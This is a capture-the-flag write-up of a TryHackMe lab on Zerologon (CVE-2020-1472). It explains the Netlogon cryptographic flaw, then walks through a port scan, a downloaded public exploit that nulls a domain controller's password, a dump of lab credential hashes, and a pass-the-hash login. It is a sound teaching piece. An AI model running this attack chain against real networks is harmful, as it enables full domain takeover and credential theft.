


# Zerologon

| [](https://tryhackme.com/room/zer0logon) |
|:-----------------------------------------------------------------------------------------------------------:|
|                [https://tryhackme.com/room/zer0logon]                 |

On September 14, Secura released a whitepaper for [CVE-2020-1472](https://nvd.nist.gov/vuln/detail/CVE-2020-1472), 
that allowed an attacker to go from Zero to Domain Admin in approximately one minute. They dubbed this vulnerability Zero Logon.

Zero Logon is a purely statistics based attack that abuses a feature within `MS-NRPC` (Microsoft NetLogon Remote 
Protocol), `MS-NRPC` is a critical authentication component of Active Directory that handles authentication for User 
and Machine accounts. In short -- the attack mainly focuses on a poor implementation of Cryptography. To be more 
specific, Microsoft chose to use `AES-CFB8` for a function called `ComputeNetlogonCredential`, which is normally fine, 
except they had hard coded the `Initialization Vector` to use all zeros instead of a random string. When an attacker 
sends a message only containing zeros with the IV of zero, there is a 1-in-256 chance that the Ciphertext will be Zero.

In [this room]((https://tryhackme.com/room/zer0logon), the ZeroLogon vulnerability is approached from a "Proof of Concept" (PoC) emphasis, providing a 
breakdown of the vulnerable method within this issue. TryHackMe does not condone illegal actions taken on the part of 
an individual (or group).

## Analysing the MS-NRPC logon process

|  |
|:----------------------------------------------------------------------------------------------------------------------:|
|                                      Simplified Netlogon authentication handshake                                      |

Step 1. The client creates a `NetrServerReqChallenge` and sends it off with values:

1. The DC
2. The Target Device (Also the DC, in our case)
3. A `Nonce` (In this case 16 Bytes of Zero).

Step 2. The server receives the `NetrServerReqChallenge`, the server will then generate its own `Nonce` (This is 
called the `Server Challenge`), and will send the Server Challenge back.

Step 3. The client will compute its `NetLogon Credentials` with the `Server Challenge` provided. It uses the 
`NetrServerAuthenticate3` method which requires the following parameters:

1. A Custom Binding Handle (Impacket handles this for us, it's negotiated prior)
2. An Account Name (The Domain Controller's machine account name. ex: `DC01$`)
3. A Secure Channel Type (Impacket sort of handles this for us, but we still need to specify it: `nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel`)
4. The Computer Name (The Domain Controller ex: `DC01`)
5. The Client Credential String (this will be 8 hextets of `\x00` (16 Bytes of Zero))  
6. Negotiation Flags (The following value observed from a Win10 client with Sign/Seal flags disabled: `0x212fffff` Provided by Secura)

Step 4. The server will receive the `NetrServerAuthenticate` request and will compute the same request itself using 
it's known, good values. If the results are good, the server will send the required info back to the client. 

At this point the attempt to exploit the Zero Logon vulnerability is under way. The above steps above will be looped 
through a certain number of times to attempt to exploit the Zero Logon vulnerability. The actual exploit occurs at 
Step 3 and 4, where we are hoping for the Server to a have the same computations as the client. This is where the 
1-in-256 chance comes in.

|                                                                                                                                        |
|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| The Zerologon attack, which effectively boils down to filling particular message parameters with <br>zeroes and retrying the handshake a few times in order to set an empty computer password on the DC. |

Step 5. If the server calculates the same value, the client will re-verify and once mutual agreement is confirmed, 
they will agree on a `session key`. The session key will be used to encrypt communications between the client and the 
server, which means authentication is successful. 

## Instantly Become Domain Admin

Scan target:

```text
$ sudo nmap -sC -sV <target IP> -vv
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-30 20:41 GMT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
Initiating Ping Scan at 20:41
Scanning 10.10.157.233 [4 ports]
Completed Ping Scan at 20:41, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:41
Completed Parallel DNS resolution of 1 host. at 20:41, 0.01s elapsed
Initiating SYN Stealth Scan at 20:41
Scanning 10.10.157.233 [1000 ports]
Discovered open port 3389/tcp on 10.10.157.233
Discovered open port 139/tcp on 10.10.157.233
Discovered open port 135/tcp on 10.10.157.233
Discovered open port 80/tcp on 10.10.157.233
Discovered open port 445/tcp on 10.10.157.233
Discovered open port 53/tcp on 10.10.157.233
Discovered open port 636/tcp on 10.10.157.233
Discovered open port 389/tcp on 10.10.157.233
Discovered open port 3268/tcp on 10.10.157.233
Discovered open port 464/tcp on 10.10.157.233
Discovered open port 3269/tcp on 10.10.157.233
Discovered open port 88/tcp on 10.10.157.233
Discovered open port 593/tcp on 10.10.157.233
Completed SYN Stealth Scan at 20:41, 0.87s elapsed (1000 total ports)
Initiating Service scan at 20:41
Scanning 13 services on 10.10.157.233
Completed Service scan at 20:43, 142.72s elapsed (13 services on 1 host)
NSE: Script scanning 10.10.157.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:44, 15.02s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 3.42s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
Nmap scan report for 10.10.157.233
Host is up, received echo-reply ttl 127 (0.047s latency).
Scanned at 2022-10-30 20:41:23 GMT for 162s
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain?       syn-ack ttl 127
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-10-30 20:41:30Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOLOLIVE
|   NetBIOS_Domain_Name: HOLOLIVE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hololive.local
|   DNS_Computer_Name: DC01.hololive.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-10-30T20:43:47+00:00
|_ssl-date: 2022-10-30T20:44:05+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.hololive.local
| Issuer: commonName=DC01.hololive.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-10-29T20:30:54
| Not valid after:  2023-04-30T20:30:54
| MD5:   62030478ed5f961d8de78c4320b6ecb4
| SHA-1: 61f06fd27c274c25bcfd18bf9071deedde71480e
| -----BEGIN CERTIFICATE-----
| MIIC6jCCAdKgAwIBAgIQbR35+QuaCqRI7lDweNf1wjANBgkqhkiG9w0BAQsFADAe
| MRwwGgYDVQQDExNEQzAxLmhvbG9saXZlLmxvY2FsMB4XDTIyMTAyOTIwMzA1NFoX
| DTIzMDQzMDIwMzA1NFowHjEcMBoGA1UEAxMTREMwMS5ob2xvbGl2ZS5sb2NhbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJVruwf7lpE3tXrLTFWnwQZ9
| cp541+ob7PH+LFYji9euZrm+RfIBvf/f42e28RJEzk79PKDo0yu/IERVVyMn0xnz
| PRAzHfdKB3J3Ktwb3GBMWthdH1jQ5fT+noi8OTgNozc3Sfyzuo8qL4VCL1vKUr9v
| MyYwzEOEjw+FAnY6KHNU/E8ha3WwYYmt7Gu7mmv1Jv9BF0FbklXZQfuBy92B/crH
| Ac0T54Um+TEUsfmLK6g6SC/YQnBZpgG3QBNbX1wXaq7j/SkuttWMSJJxITNWpOxv
| RbdDjGIHPWhiWK7VqqRWUdhUHdKd2dRVZb9IUWunk0usomaBTt7hxulNstVOWPEC
| AwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqG
| SIb3DQEBCwUAA4IBAQAjL74A1GueWnCBqJsc2Q3oQlJosr6fjoVfNkLzfH90IQpr
| XbZeYUNZ9gTRi0xXtMcWlowLGCF8AjnTWttya4Y/YiRSTputuKbcoFIWQ1Y1lr0x
| LOTWxlqG0pLoeLWpO8l2gY5RyYMrCmFVvpH6DU1tQFBBvrFTIJVmVUZXnBbCQq0T
| GekWK3M32FxUVI32korItEby7EdJ9T4vhgSbtnWHL8RuNAqVa7opN3u2KEaanxlv
| z2vNDsbv8DjkAxpfD/p1bj+tLWkxNPIRspIf8B/ywQn2Ia5u8/HKq56MpTWw1O/L
| nWp4P6F4b5ZheeSh+DZhrxnLHFa1JVhZq4rclEeS
|_-----END CERTIFICATE-----
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2022-10-30T20:43:49
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44856/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58805/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55710/udp): CLEAN (Timeout)
|   Check 4 (port 28882/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:44
Completed NSE at 20:44, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.80 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.080KB)
```

Get the `zeroLogon-NullPass.py` python script:

    wget https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py

Exploit the domain controller:

```text
$ python zeroLogon-NullPass.py DC01 <IP target>

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 321
Zero Logon successfully exploited, changing password.
```

Dump secrets:

```text
$ impacket-secretsdump -just-dc -no-pass DC01\$@<IP target>
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up... 
```

Go in to get the root flag:

```text
# evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i <IP target>       

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/20/2020   2:02 PM             24 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

## Resources

* [Secura Zerologon CVE-2020-1472 Whitepaper](https://www.secura.com/blog/zero-logon)
* [Microsoft Open Specifications 3.1.4.1 Session-Key Negotiation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7b9e31d1-670e-4fc5-ad54-9ffff50755f9)
* [Microsoft Open Specifications 3.5.4.4.2 NetrServerAuthenticate3 (Opnum 26)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)